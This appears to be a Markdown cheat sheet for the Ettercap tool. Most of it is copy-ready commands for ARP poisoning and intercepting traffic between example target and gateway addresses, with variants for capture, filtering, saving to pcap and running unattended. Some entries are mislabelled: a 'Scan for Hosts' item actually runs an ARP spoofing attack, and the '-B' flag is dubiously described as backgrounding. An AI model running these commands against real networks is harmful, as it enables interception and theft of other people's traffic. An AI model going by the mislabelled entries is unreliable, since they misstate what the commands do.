 Ettercap is a comprehensive suite for man-in-the-middle attacks on LAN. It features various network sniffing and analysis capabilities and supports different attack methods. Below is a detailed overview of its options and usage examples.

### **Ettercap**

#### **Common Commands and Options**

1. **Start Ettercap in GUI Mode:**
   - **Description:** Launch Ettercap with a graphical user interface.
   - **Command:**
     ```bash
     ettercap -G
     ```
   - **Example:**
     ```bash
     ettercap -G
     ```

   - **Explanation:**
     - Opens the Ettercap graphical user interface for easier interaction.

2. **Start Ettercap in Text Mode:**
   - **Description:** Launch Ettercap in text mode (command-line interface).
   - **Command:**
     ```bash
     ettercap -T
     ```
   - **Example:**
     ```bash
     ettercap -T
     ```

   - **Explanation:**
     - Starts Ettercap in text mode, suitable for terminal-based operations.

3. **Scan for Hosts:**
   - **Description:** Scan the network to identify active hosts.
   - **Command:**
     ```bash
     ettercap -T -q -M ARP /<target_ip>/ /<gateway_ip>/
     ```
   - **Example:**
     ```bash
     ettercap -T -q -M ARP /192.168.1.5/ /192.168.1.1/
     ```

   - **Explanation:**
     - Performs an ARP spoofing attack between the target IP and gateway IP. `-T` specifies text mode, `-q` suppresses output verbosity.

4. **Perform an ARP Spoofing Attack:**
   - **Description:** Execute an ARP poisoning attack to intercept network traffic.
   - **Command:**
     ```bash
     ettercap -T -M ARP /<target_ip>/ /<gateway_ip>/
     ```
   - **Example:**
     ```bash
     ettercap -T -M ARP /192.168.1.10/ /192.168.1.1/
     ```

   - **Explanation:**
     - ARP poisoning between the target and gateway, allowing traffic interception.

5. **Capture Network Traffic:**
   - **Description:** Capture and display network traffic for analysis.
   - **Command:**
     ```bash
     ettercap -T -M arp:remote /<target_ip>/ /<gateway_ip>/ -i <interface>
     ```
   - **Example:**
     ```bash
     ettercap -T -M arp:remote /192.168.1.15/ /192.168.1.1/ -i eth0
     ```

   - **Explanation:**
     - Uses ARP spoofing to capture traffic between the target and gateway on the specified network interface.

6. **Filter Network Traffic:**
   - **Description:** Apply filters to network traffic.
   - **Command:**
     ```bash
     ettercap -T -F <filter_file> -M ARP /<target_ip>/ /<gateway_ip>/
     ```
   - **Example:**
     ```bash
     ettercap -T -F my_filter.filter -M ARP /192.168.1.20/ /192.168.1.1/
     ```

   - **Explanation:**
     - Uses a filter file to process traffic during the ARP poisoning attack.

7. **Save Captured Data:**
   - **Description:** Save the captured network traffic to a file.
   - **Command:**
     ```bash
     ettercap -T -M ARP /<target_ip>/ /<gateway_ip>/ -w <output_file>
     ```
   - **Example:**
     ```bash
     ettercap -T -M ARP /192.168.1.25/ /192.168.1.1/ -w capture.pcap
     ```

   - **Explanation:**
     - Saves the captured network traffic to `capture.pcap` for later analysis.

8. **Run Ettercap in Background:**
   - **Description:** Run Ettercap as a background process.
   - **Command:**
     ```bash
     ettercap -T -M ARP /<target_ip>/ /<gateway_ip>/ -B
     ```
   - **Example:**
     ```bash
     ettercap -T -M ARP /192.168.1.30/ /192.168.1.1/ -B
     ```

   - **Explanation:**
     - Runs Ettercap in the background, which is useful for long-running attacks or scans.

9. **Help and Documentation:**
   - **Description:** Display help information and documentation for Ettercap commands.
   - **Command:**
     ```bash
     ettercap --help
     ```
   - **Example:**
     ```bash
     ettercap --help
     ```

   - **Explanation:**
     - Shows available options and usage information for Ettercap.

#### **Summary of Ettercap Commands**

| **Command**                                            | **Description**                                           | **Example**                                           |
|--------------------------------------------------------|-----------------------------------------------------------|-------------------------------------------------------|
| `ettercap -G`                                         | Start Ettercap in GUI mode.                              | `ettercap -G`                                         |
| `ettercap -T`                                         | Start Ettercap in text mode.                             | `ettercap -T`                                         |
| `ettercap -T -q -M ARP /<target_ip>/ /<gateway_ip>/` | Perform ARP spoofing attack.                             | `ettercap -T -q -M ARP /192.168.1.5/ /192.168.1.1/` |
| `ettercap -T -M ARP /<target_ip>/ /<gateway_ip>/`    | Execute ARP poisoning attack.                            | `ettercap -T -M ARP /192.168.1.10/ /192.168.1.1/`   |
| `ettercap -T -M arp:remote /<target_ip>/ /<gateway_ip>/ -i <interface>` | Capture network traffic.                       | `ettercap -T -M arp:remote /192.168.1.15/ /192.168.1.1/ -i eth0` |
| `ettercap -T -F <filter_file> -M ARP /<target_ip>/ /<gateway_ip>/` | Apply traffic filter.                      | `ettercap -T -F my_filter.filter -M ARP /192.168.1.20/ /192.168.1.1/` |
| `ettercap -T -M ARP /<target_ip>/ /<gateway_ip>/ -w <output_file>` | Save captured data to file.                           | `ettercap -T -M ARP /192.168.1.25/ /192.168.1.1/ -w capture.pcap` |
| `ettercap -T -M ARP /<target_ip>/ /<gateway_ip>/ -B` | Run Ettercap in background.                              | `ettercap -T -M ARP /192.168.1.30/ /192.168.1.1/ -B` |
| `ettercap --help`                                    | Display help and documentation.                          | `ettercap --help`                                    |

---

Ettercap is a versatile tool for performing network attacks, such as ARP poisoning and traffic interception, and it provides robust options for network analysis and security testing.